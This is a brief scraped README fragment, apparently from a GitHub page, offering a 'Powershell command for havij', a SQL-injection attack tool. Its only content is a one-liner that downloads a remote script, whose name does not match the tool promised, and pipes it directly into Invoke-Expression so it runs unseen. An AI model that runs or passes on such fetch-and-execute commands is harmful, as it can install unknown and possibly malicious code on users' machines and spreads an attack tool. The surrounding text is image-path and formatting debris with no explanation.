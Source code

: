 ## Powershell command for havij
```powershell
irm https://raw.githubusercontent.com/sahmsec/Tools/main/Cyberfox/aws-install.ps1 | iex
